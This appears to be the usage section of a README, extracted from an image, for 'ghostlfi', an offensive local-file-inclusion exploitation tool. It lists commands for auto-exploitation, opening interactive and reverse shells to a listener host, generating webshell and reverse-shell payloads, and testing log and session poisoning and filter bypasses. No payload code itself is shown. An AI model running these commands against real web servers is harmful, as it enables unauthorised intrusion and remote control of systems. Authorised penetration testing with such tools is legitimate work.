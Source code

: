### Basic Usage
```bash
# Auto-exploit
python3 ghostlfi.py -u <URL> -p <param> --auto

# With advanced techniques
python3 ghostlfi.py -u <URL> -p <param> --auto --advanced

# Interactive shell
python3 ghostlfi.py -u <URL> -p <param> --auto --shell

# Reverse shell
python3 ghostlfi.py -u <URL> -p <param> --auto --revshell --lhost <IP> --lport <PORT>
```

### Payload Generation
```bash
# Generate LFI payloads
python3 ghostlfi.py -u <URL> -p <param> --generate lfi

# Generate wrapper payloads
python3 ghostlfi.py -u <URL> -p <param> --generate wrappers

# Generate webshells
python3 ghostlfi.py -u <URL> -p <param> --generate shells

# Generate reverse shells
python3 ghostlfi.py -u <URL> -p <param> --generate revshell
```

### Testing
```bash
# Test LFI bypasses
python3 ghostlfi.py -u <URL> -p <param> --test-bypass

# Test log poisoning
python3 ghostlfi.py -u <URL> -p <param> --test-log-poison

# Test session poisoning
python3 ghostlfi.py -u <URL> -p <param> --test-session-poison
```

### Advanced
```bash
# With Burp proxy
python3 ghostlfi.py -u <URL> -p <param> --auto --proxy http://127.0.0.1:8080

# Help
python3 ghostlfi.py --help
```

---

